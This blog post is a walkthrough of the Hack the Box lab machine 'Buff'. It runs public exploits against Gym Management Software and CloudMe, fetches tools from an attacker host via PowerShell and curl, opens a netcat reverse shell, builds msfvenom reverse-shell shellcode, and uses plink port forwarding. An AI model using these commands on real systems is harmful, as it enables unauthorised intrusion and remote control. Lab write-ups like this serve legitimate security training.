 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
date = 2020-07-18T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/08/info.png"
slug = "hack-the-box-buff"
summary = "Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
title = "Hack the Box - Buff"
slug = "/hack-the-box-buff"
 

+++


Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!

As always we start with `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.198`

Here are our results:
```
Nmap scan report for 10.10.10.198
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

We see only two ports. So we head over to port `8080` and see what is being hosted. We land on a gym page. Exploring the page a bit shows that it's built on a software called `Gym Management Software 1.0`. A quick google shows us there are a few possible exploits for this software.

![](/images/2020/08/image.png)

We will quickly mirror this exploit to our working directory with `searchsploit`.

Command:
`searchsploit -m 48506`

Reading through the exploit and how it works, we simply need to supply our target URL.

Command:
`python2 48506.py http://10.10.10.198:8080/`

![](/images/2020/08/buffshell.gif)

We get back a webshell. We can now use this to quickly snag our `users.txt` flag.

![](/images/2020/08/image-1.png)

Now that we have this flag, we can look at creating a more stable connection and look for ways to escalate. We can use `nc` or `plink` to create a connnection back to our attacking system. First we need to download those tools to this system.

Command:
`powershell.exe -exec bypass -C "iex(New-Object Net.WebClient).DownloadFile('http://10.10.14.210/nc64.exe', 'C:\xampp\htdocs\gym\upload\nc64.exe')"`

Once thats on the system we can create our callback.

Command:
`.\nc.exe 10.10.14.210 7777 -e powershell.exe`

Make sure we have our listener as well.
`nc -lcnp 7777`

Once we do that we get our shell back.

![](/images/2020/08/image-2.png)

Now we just download `winPEAS` the same as we have for other tools:

Command:
`iex(New-Object Net.WebClient).DownloadFile("http://10.10.14.210/winPEAS.exe", "C:\Temp\wp.exe")`

When we try to run the file however, we are blocked.

![](/images/2020/08/image-3.png)

So we just download the `.bat` version instead. As we sift through this data we don't see much too exciting. As we manually browse the the contents of the machine, we noticed `CloudMe_1112.exe` in downloads. When we check against the `winPeas` scan from above we see that port 8888 is open locally, the port `CloudMe` uses. A quick search for any exploits of the software shows there is one on [exploit-db](https://www.exploit-db.com/exploits/48389).

The goal here is to do some port forwarding to our machine and run this exploit. To do this we'll need to use `plink`. We'll also need to create our own shellcode exploit as well.

First we'll generate our shellcode:

Command:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.210 LPORT=6969 -f c > shellcode`

We'll need to put this code in our exploit code later on. Next, let's get `plink` onto the target machine.

Command:
`curl http://10.10.14.210/plink.exe -o C:\tmp\plink.exe`

We can now create a port forwarding scenario to access remote ports locally. First start our `SSH` service if it's not already running.

Command:
`service ssh start`

Now create our port forward:

Command:
`.\plink.exe -ssh rootflag@10.10.14.210 -R 1234:127.0.0.1:8888`

This will then prompt us to login with the account. Once we do we should see a basic prompt.

![](/images/2020/08/image-5.png)

Now we should have the remote port of `8888` being forwarded to our local port of `1234`. If you try to curl the port, it's not going to get back any info but that's normally what I would do to be sure it worked.

Now that we have the ports forwarded, we can modify the exploit we found earlier - `44470.py`. First we need to replace the shellcode inside the exploit with our generated backdoor code. That's the code on line 31 - 52. Once we've pasted in our new shell code, we need to modify line 57 to reflect our port. In this case, we set or local port to `1234`. So we'll need to make that the value rather than `8888`

![](/images/2020/08/image-6.png)

Now with that saved. We can setup another listener to catch our reverse shell for the exploitcode that we made in the first step.

Command:
`nc -lvnp 6969`

We can now run the exploit. If you're on a public machine like myself, you might need to run it a few times.

Command:
`python2 44470.py` 

If all goes well, your listen will catch the connection.

![](/images/2020/08/image-4.png)

We now have an admin shell. We get our `root.txt` flag and box complete!

If you learned something in this box, send some respect my way - [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



